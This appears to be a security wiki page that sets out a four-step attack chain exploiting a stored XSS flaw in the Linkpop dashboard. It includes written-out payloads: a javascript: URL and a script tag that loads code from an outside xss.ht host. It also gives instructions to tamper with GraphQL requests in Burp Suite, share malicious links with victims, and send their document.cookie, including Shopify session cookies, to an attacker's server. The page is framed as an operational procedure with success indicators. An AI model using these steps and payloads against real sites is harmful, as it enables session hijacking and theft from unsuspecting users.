

# Stored XSS in Linkpop Dashboard for Cookie Exfiltration via Malicious Links

Multi-stage attack chain demonstrating exploitation of a stored XSS vulnerability in the Linkpop dashboard, allowing attackers to inject JavaScript payloads into user-generated templates and deliver them via shareable links to victims, resulting in code execution, cookie theft, and potential account hijacking, especially for Shopify-linked users.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 4 |
| Execution Time | ~10 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization

## Prerequisites & Requirements

### Required Tools

- [[tools/Burp-Suite]]

### Target Environment

- Web platform with Linkpop dashboard access
- GraphQL endpoints for template creation
- Browser for testing (e.g., Firefox)

### Initial Access Requirements

- Valid Linkpop account credentials
- Network access to https://linkpop.com
- No prior access needed beyond authentication

## Detailed Attack Procedures

### Step 1: Access Dashboard
procedure: [[procedures/Access-Linkpop-Dashboard]]

**Objective**: Gain authenticated access to the Linkpop admin dashboard to initiate template creation.

**Instructions**: Navigate to the Linkpop website and log in using valid credentials to reach the dashboard at https://linkpop.com/dashboard/admin.

**Expected Output**: Successful login and dashboard interface loaded.

**Success Indicators**:
- Dashboard accessible without errors
- Option to create new templates visible

### Step 2: Inject XSS Payload
procedure: [[procedures/Inject-XSS-into-Template-Creation]]

**Objective**: Bypass client-side validations by tampering with the GraphQL mutation request to store a malicious JavaScript payload in the template.

**Instructions**: Start creating a new template, intercept the request with [[tools/Burp-Suite]], and modify the 'url' parameter in the links array to include 'javascript:alert(document.domain)', or more advanced payloads like '"\u003e\u003ch1\u003enagli\u003c/h1\u003e"\u003e\u003cscript src=https://naglinagli.xss.ht\u003e\u003c/script\u003e${7*7}{{7*7}}' in title, bio, or social media handles.

**Expected Output**: Payload successfully stored without triggering client-side blocks; template saved.

**Success Indicators**:
- Request forwarded and template created
- No validation errors on submission

### Step 3: Generate Shareable Link
procedure: [[procedures/Generate-and-Share-Malicious-Link]]

**Objective**: Obtain a unique shareable URL that embeds the stored malicious payload for delivery to victims.

**Instructions**: After saving the template, locate and copy the generated shareable link, such as https://linkpop.com/testnaglinagli.

**Expected Output**: Unique URL copied to clipboard.

**Success Indicators**:
- Link generated and accessible
- Page preview shows no immediate errors

### Step 4: Trigger and Exfiltrate
procedure: [[procedures/Trigger-XSS-and-Exfiltrate-Cookies]]

**Objective**: Deliver the link to a victim and execute the payload to steal cookies and perform actions on their behalf.

**Instructions**: Share the link with a victim; upon visiting and interacting (e.g., clicking an image), the JavaScript executes. Modify payload for exfiltration, e.g., sending document.cookie to an attacker-controlled server; observe exfiltrated data like _shopify_y cookies.

**Expected Output**: Alert or script execution; cookies sent to attacker's endpoint.

**Success Indicators**:
- JavaScript alert or external script load
- Cookies received on exfiltration server
- Potential CORS bypass or account actions

## Attack Chain Summary

### Key Achievements

1. Bypassed client-side URL validation to store XSS payload
2. Created persistent malicious links deliverable to any victim
3. Achieved arbitrary JS execution leading to cookie theft and Shopify session hijacking

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]

### MITRE ATT&CK Tactics

- [[Execution]]
- [[Collection]]

---

*Last updated: 2023-10-01T12:00:00Z*
